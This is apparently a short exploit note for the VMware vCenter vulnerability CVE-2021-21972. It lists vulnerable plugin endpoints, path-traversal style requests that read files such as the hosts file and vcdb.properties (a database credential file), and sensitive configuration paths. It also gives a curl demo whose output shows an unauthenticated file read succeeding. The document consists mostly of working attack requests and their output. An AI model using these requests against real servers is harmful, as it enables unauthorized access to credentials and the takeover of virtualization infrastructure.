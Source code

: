 
- /vsphere-client/?csp
- /eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
- /eam/vib?id=/etc/hosts
- /eam/vibd?id=/etc/hosts
- /eam/vibd?id=C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties
- /ui/vropspluginui/rest/services/checkmobregister
- /ui/vropspluginui/rest/services/uploadova
- /checkmobregister
- /updatetelemetryInfo
- /checkLicenseSuiteApi
- /checkVsanLicenseValidity
- /getvcdetails
- /getstatus
- /testvcconnection
- /testvropsconnection
- /dashboard
- /capacity
- /capacity/memory
- /capacity/cpu
- /capacity/storage
- /license/allLicenses
- /vcclusters
- /vccontention
- /vcclusteralerts
- /inventoryscoreboard
- /alerts
- /vropsURL
- /vcIP
- /serverguid
- /Isceienabled
- /alertdetails
- /vsanalertdetails
- /osdetails
- /vmdetails
- /drs
- 
- POST /vropsinstallation content-type=application/json; charset=UTF-8
- POST /uploadova
- POST /configurevrops content-type=application/json; charset=UTF-8
- C:\\ProgramData\\VMware\\vCenterServer\\logs\\vsphere-client\\logs\\dataservice.log
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\compatibility-matrix.xml
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\webclient.properties
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties


### Demo
```
$ curl -ik https://10.x.y.z/vsphere-client/?csp
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=CB600A5211B6C4B056FAFCFB86DEBDC805C0; Path=/vsphere-client/; Secure; HttpOnly
X-UA-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 7650
Date: Wed, 24 Feb 2021 06:09:04 GMT


curl -ik https://10.x.y.z/eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Date: Wed, 24 Feb 2021 05:55:37 GMT
Server: Apache

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```


### Ref
- https://twitter.com/jas502n/status/1316992409088094209
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://www.cnblogs.com/potatsoSec/p/14444897.html)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
